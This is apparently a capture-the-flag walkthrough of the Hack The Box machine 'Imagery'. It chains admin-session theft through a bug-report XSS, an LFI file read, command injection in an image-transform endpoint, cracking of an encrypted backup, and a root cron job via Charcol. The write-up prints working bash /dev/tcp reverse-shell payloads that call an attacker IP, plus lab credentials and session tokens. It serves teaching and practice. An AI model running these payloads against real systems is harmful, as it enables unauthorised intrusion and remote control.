# Imagery

<div class="wu-meta" markdown="span">
<span class="wu-badge wu-os">:fontawesome-brands-linux: Linux</span>
<span class="wu-badge wu-diff wu-diff--medium">Medium</span>
<span class="wu-tags">
<span class="wu-tag">XSS</span>
<span class="wu-tag">Command injection</span>
<span class="wu-tag">Charcol</span>
</span>
</div>

!!! abstract "What this box demonstrates"
    Imagery was a chain of small web boundaries. The administrator session enabled file reads, the test account enabled the vulnerable image workflow, and an encrypted backup supplied the password needed for the final scheduler abuse.

## Attack path

1. Steal the admin bot's session through a bug report and read the application database.
2. Use the test account's image transformation endpoint for command injection.
3. Decrypt a backup, pivot to Mark, and add a privileged Charcol scheduled command.

[HTB machine](https://app.hackthebox.com/machines/751) · [Official retirement evidence](https://labs.hackthebox.com/achievement/machine/2048041/751) (checked November 17, 2026).

## Enumeration

```fish
set -x IP 10.10.11.88

# TCP Fast Scan
sudo nmap -p- --min-rate=1000 -T4 -n --open $IP \
| grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//' \
| read ports; echo $ports

# Full TCP Scan with Default Scripts & Versions
sudo nmap -p$ports -sC -sV -oA tcp_full $IP

# Top 200 UDP Scan
sudo nmap -sU --top-ports 200 -T4 --min-rate=300 -oA udp_top200 $IP
```

---
### Nmap Results

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.7p1 Ubuntu 7ubuntu4.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:94:fb:70:36:1a:26:3c:a8:3c:5a:5a:e4:fb:8c:18 (ECDSA)
|_  256 c2:52:7c:42:61:ce:97:9d:12:d5:01:1c:ba:68:0f:fa (ED25519)
8000/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.12.7)
|_http-server-header: Werkzeug/3.1.3 Python/3.12.7
|_http-title: Image Gallery
```

---
## Service Enumeration

### Port 8000 (HTTP)

- Sensitive paths / files:
	- View Page Source reveals JavaScript snippet which reveals the following:
		- Interesting API Endpoints (all exposed in the JS)
			- `POST /register`
			- `POST /login`
			- `POST /logout`
			- `GET /images` (returns `images` & `grouped_images`)
			- `POST /upload_image` (file upload)
			- `POST /delete_image`
			- `POST /edit_image_details`
			- `POST /convert_image`
			- `POST /apply_visual_transform`
			- `POST /delete_image_metadata`
			- `GET /get_image_collections`
			- `POST /create_image_collection`
			- `POST /move_images_to_collection`
			- `POST /report_bug`
			
			- **Admin-only but only gated in JS:**
			    - `GET /admin/users`
			    - `POST /admin/delete_user`
			    - `GET /admin/bug_reports`
			    - `POST /admin/delete_bug_report`
			    - `GET /admin/get_system_log?log_identifier=…`

- Misconfigurations:
	- `POST /report_bug` vulnerable to XSS (path to obtain admin bot user's session cookie)
	- `GET /admin/get_system_log?log_identifier=…` allows for LFI (exploitable after obtaining admin bot user's session cookie)
	- `POST /apply_visual_transform` (path to RCE and foothold)

- Auth mechanisms:
	- `Cookie: session=TOKEN`

---
## Foothold

Start by creating a user with the `POST /register` endpoint

<figure class="wu-evidence" markdown>

<figcaption>A registration request creates the initial application account.</figcaption>
</figure>

Then login with the `POST /login` endpoint to obtain a session cookie used to make authenticated requests (no admin privileges yet)

<figure class="wu-evidence" markdown>

<figcaption>Logging in returns an ordinary application session.</figcaption>
</figure>

(Optional) Create a rule in Burp that automatically applies this cookie to each request:

* `Burp > Settings > Sessions > Session handling rules > Add`
* `Add` a rule in the Details tab > `Set a specific cookie or parameter value`
	* `Name:session`
	* `value:TOKEN`
	* Check box `if not already present, add as a: cookie`
* In the Scope tab, select all Tools scope and the URL scope

Create a request for `POST /report_bug` and insert an XSS payload to steal the cookie of the admin bot user (open an NC listener on the appropriate port to catch response)
```bash
POST /report_bug HTTP/1.1
...
Content-Type: application/json
Cookie: session=.eJyrVkrJLC7ISaz0TFGyUjIySDNJMTK2UNJRyix2TMnNzFOySkvMKU4F8eMzcwtSi4rz8xJLMvPS40tSi0tKi1OLkFXAxOITk5PzS_NK4HIgwbzE3FSgHbmZ2alKtQDaECrS.aNl8pg.S6afatX3IScWQl7rZSv4VxfFQgU
{
  "bugName":"weiner",
  "bugDetails": ""
}
```

<figure class="wu-evidence" markdown>

<figcaption>The bug report payload triggers a request containing the administrator session.</figcaption>
</figure>

Now, we have an admin session cookie to make authenticated administrative requests
```text
Cookie: session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aNnMRA.31SnWYg_uXnqK0R92MKsDHt-H7
```

Now, we can abuse the LFI vulnerability in `GET /admin/get_system_log?log_identifier=` to obtain information on the host
```http
GET /admin/get_system_log?log_identifier=../../../../../home/web/web/db.json
```

<figure class="wu-evidence" markdown>

<figcaption>The file-read endpoint exposes the application user database.</figcaption>
</figure>

This reveals the following two user accounts:
```bash
"username": "testuser@imagery.htb",
"password": "2c65c8d7bfbca32a3ed42596192384f6"

"username": "admin@imagery.htb",
"password": "5d9c1d507a3f76af1e5c97a3ad1eaa31"
```

Crack the MD5 hashes to reveal the password for `testuser:iambatman`

Additionally, we need to access other important files (using the admin bot user's session cookie) for more details later:

`/home/web/web/api_edit.py`

* Note the dangerous use of `shell=True` in the `subprocess.run` parameter which tells use command injection is possible

`/etc/passwd`

* Provides us with valid users (although not specifically needed to complete lab, it is useful)

Use `POST /login` to log in as `testuser` with the recovered plaintext password. The request below corrects the database hash pasted into the original login example
```bash
{
  "username": "testuser@imagery.htb",
  "password": "iambatman"
}
```

And obtain the session cookie for `testuser`
```text
session=.eJxNjTEOgzAMRe_iuWKjRZno2FNELjGJJWJQ7AwIcfeSAanjf_9J74DAui24fwI4oH5-xlca4AGs75BZwM24KLXtOW9UdBU0luiN1KpS-Tdu5nGa1ioGzkq9rsYEM12JWxk5Y6Syd8m-cP4Ay4kxcQ.aNnSyA.ryRQv2W00Px7X2GM7rKGDx1uf48
```

Now, for the next section, you'll need a valid JPG file from online. Download this onto your local machine. 

Navigate to `POST /upload_image` and use the following template to upload a valid JPEG file
```http
POST /upload_image HTTP/1.1
Host: 10.10.11.88:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: session=.eJxNjTEOgzAMRe_iuWKjRZno2FNELjGJJWJQ7AwIcfeSAanjf_9J74DAui24fwI4oH5-xlca4AGs75BZwM24KLXtOW9UdBU0luiN1KpS-Tdu5nGa1ioGzkq9rsYEM12JWxk5Y6Syd8m-cP4Ay4kxcQ.aNnSyA.ryRQv2W00Px7X2GM7rKGDx1uf48
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 303
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="title"

Test image
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="d.jpeg"
Content-Type: image/jpeg

<<Right click in Burp and Paste from file>>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

You should see an HTTP response containing an `imageId`

<figure class="wu-evidence" markdown>

<figcaption>The image upload returns an imageId for the transformation request.</figcaption>
</figure>

Copy this value.

Navigate to `POST /apply_visual_transform` and execute RCE into any of the parameters (width, height, x, y) while having the appropriate listener open to obtain a shell
```bash
POST /apply_visual_transform HTTP/1.1
Host: 10.10.11.88:8000
Cookie: session=.eJxNjTEOgzAMRe_iuWKjRZno2FNELjGJJWJQ7AwIcfeSAanjf_9J74DAui24fwI4oH5-xlca4AGs75BZwM24KLXtOW9UdBU0luiN1KpS-Tdu5nGa1ioGzkq9rsYEM12JWxk5Y6Syd8m-cP4Ay4kxcQ.aNnSyA.ryRQv2W00Px7X2GM7rKGDx1uf48

User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/json
Content-Length: 234

{

  "imageId": "cff048d4-5bdb-4918-a6ca-c75fd8a22587",
  "transformType": "crop",
  "params": {
      "width": "100",
      "height": "200",
      "x": "10",
      "y": "10|bash -c 'bash -i >& /dev/tcp/10.10.14.3/9008 0>&1'"
  }
}
```

> Make sure to use `testuser`'s session cookie to upload the file and execute the RCE

<figure class="wu-evidence" markdown>

<figcaption>The image transformation request produces a reverse shell.</figcaption>
</figure>

> Keep this web shell opened as it will be used later to pivot to `mark`

---
## Lateral Movement

Upload `linpeas` onto the target to find a backup file in `/var/backup`

<figure class="wu-evidence" markdown>

<figcaption>Local enumeration locates the encrypted web backup.</figcaption>
</figure>

Download the `web_...zip.aes` file from the target (`wget` from attacker using python web server on victim)

<figure class="wu-evidence" markdown>

<figcaption>The encrypted archive is copied to the attacking machine.</figcaption>
</figure>

```python title="crackAES.py"
import pyAesCrypt
import os
import sys

# Define the name of the encrypted file
encrypted_file = "web_20250806_120723.zip.aes"

# Define the wordlist to be used for the brute-force attack
wordlist_file = "/usr/share/wordlists/rockyou.txt"

# A placeholder file for decrypted content
decrypted_output = "/home/taylor/Desktop/kali/HTB/imagery/decrypted_file.txt"

buffer_size = 64 * 1024

def crack_password():
    print(f"[*] Attempting to crack password for '{encrypted_file}'...")
    try:
        with open(wordlist_file, 'r') as wordlist:
            for password in wordlist:
                password = password.strip()  # Remove leading/trailing whitespace
                sys.stdout.write(f"\r[*] Trying password: {password:<20}")
                sys.stdout.flush()
                try:
                    pyAesCrypt.decryptFile(encrypted_file, decrypted_output, password, buffer_size)
                    print(f"\n[+] Password found: '{password}'")
                    print(f"[+] File decrypted to '{decrypted_output}'")
                    return True
                except ValueError:
                    # Incorrect password, continue to the next one
                    continue
        print("\n[-] Password not found in the wordlist.")
        return False
    except FileNotFoundError:
        print(f"\n[-] Error: One or more files not found.")
        return False
    except Exception as e:
        print(f"\n[-] An unexpected error occurred: {e}")
        return False
    finally:
        # Clean up if a temporary file was created
        if os.path.exists(decrypted_output):
            os.remove(decrypted_output)

# Run the cracker
if __name__ == "__main__":
    if crack_password():
        print("[*] Cracking complete.")
```

The password-search script deletes its test output in `finally`, even after a successful guess. Use the separate decryption script below to keep the recovered archive. Install [pyAesCrypt](https://pypi.org/project/pyAesCrypt/) in a virtual environment first.

<figure class="wu-evidence" markdown>

<figcaption>The archive password search succeeds with bestfriends.</figcaption>
</figure>

```python title="decrypt_pyaescrypt.py"
#!/usr/bin/env python3
"""
Decrypt a file created with pyAesCrypt.
It will ask you for the password at runtime.
"""
import pyAesCrypt
import getpass
import sys
import os

BUFFER_SIZE = 64 * 1024  # 64 KB

def main():
    if len(sys.argv) != 3:
        print(f"Usage: {sys.argv[0]} <input.aes> <output>")
        sys.exit(1)

    infile = sys.argv[1]
    outfile = sys.argv[2]

    if not os.path.exists(infile):
        print(f"File not found: {infile}")
        sys.exit(1)

    password = getpass.getpass("Enter password: ")

    try:
        pyAesCrypt.decryptFile(infile, outfile, password, BUFFER_SIZE)
        print(f"Decryption complete: {outfile}")
    except Exception as e:
        print(f"Decryption failed: {e}")

if __name__ == "__main__":
    main()
```

```bash
python3 decrypt_pyaescrypt.py web_...zip.aes web_...zip
Enter password: bestfriends
```

Move into the extracted `web` directory, then view `db.json` to reveal more usernames and password hashes
```bash
"username": "mark@imagery.htb",
"password": "01c3d2e5bdaf6134cec0a367cf53e535"

"username": "web@imagery.htb",
"password": "84e3c804cf1fa14306f26f9f3da177e0"
```

Crack the MD5 hash to reveal the password `mark:supersmash`

From the web shell created in our initial foothold, switch users to `mark` to obtain the `user.txt` flag:
```bash
su mark
password: supersmash
```

---
## Privilege Escalation

Reveal the `sudo` privileges by using `sudo -l` to note we can use `charcol` as super user.

Use `charcol -R` to reset the password (leave this as blank for easier exploitation)

<figure class="wu-evidence" markdown>

<figcaption>Mark resets the Charcol application password through sudo.</figcaption>
</figure>

Now, use `sudo charcol shell` to spawn an interactive shell (keep the password empty)

Charcol lets us add a cronjob to the system and, since we're running as root, we will create a cron job to execute every minute to call back to our attacking machine and spawn a shell as root.

```bash
charcol > auto add --schedule "* * * * *" --command "bash -c 'bash -i >& /dev/tcp/10.10.14.3/9008 0>&1'" --name "root pwned"
```

<figure class="wu-evidence" markdown>

<figcaption>Charcol accepts a scheduled command in its privileged shell.</figcaption>
</figure>

Open a NC listener on the appropriate port, wait for the cronjob to execute, and obtain root.

<figure class="wu-evidence" markdown>

<figcaption>The scheduled callback returns a root identity.</figcaption>
</figure>

## Lessons learned

Different accounts unlocked different application features. The final weakness was that a privileged scheduler accepted a command from Mark's sudo-authorized session, after the encrypted backup exposed his password.
